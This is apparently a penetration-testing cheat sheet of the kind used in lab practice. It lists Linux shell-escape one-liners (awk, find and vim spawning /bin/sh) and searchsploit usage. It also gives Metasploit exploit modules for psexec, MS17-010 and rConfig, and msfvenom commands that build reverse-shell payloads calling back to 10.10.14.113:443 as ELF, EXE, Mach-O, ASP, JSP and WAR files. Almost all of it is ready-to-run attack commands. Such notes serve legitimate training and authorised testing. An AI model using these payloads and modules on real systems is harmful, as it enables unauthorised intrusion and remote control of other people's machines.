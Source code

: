 ***

## **Linux Payloads**

```
Spawn interactive shell: awk 'BEGIN {system("/bin/sh")}' 
Spawn interactive shell: find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
Spawn interactive shell: find . -exec /bin/sh \; -quit 
Spawn interactive shell: vim -c ':!/bin/sh'
```

***

## **Searchsploit**

* Install & update: `sudo apt update && sudo apt install exploitdb`
* You can serach for exploits using tags such as: `searchsploit remote smb microsoft window`
* Copy a script to the current directory: `searchsploit -m windows/remote/48537.py`

***

## **Msfconsole & Msfvenom**

| Commands                                                                                          | Description                                                                                                                 |
| ------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------- |
| use exploit/windows/smb/psexec                                                                    | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing smb & psexec |
| shell                                                                                             | Command used in a meterpreter shell session to drop into a system shell                                                     |
| msfvenom -p linux/x64/shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf    | MSFvenom command used to generate a linux-based reverse shell stageless payload                                             |
| msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe      | MSFvenom command used to generate a Windows-based reverse shell stageless payload                                           |
| msfvenom -p osx/x86/shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho  | MSFvenom command used to generate a MacOS-based reverse shell payload                                                       |
| msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp | MSFvenom command used to generate a ASP web reverse shell payload                                                           |
| msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp    | MSFvenom command used to generate a JSP web reverse shell payload                                                           |
| msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war    | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload                                       |
| use auxiliary/scanner/smb/smb\_ms17\_010                                                          | Metasploit exploit module used to check if a host is vulnerable to ms17\_010                                                |
| use exploit/windows/smb/ms17\_010\_psexec                                                         | Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17\_010    |
| use exploit/linux/http/rconfig\_vendors\_auth\_file\_upload\_rce                                  | Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting rConfig 3.9.6     |

***

## **Kali Linux Web Shells**

> You can find some web shells within Kali Linux, under `/usr/share/webshells`

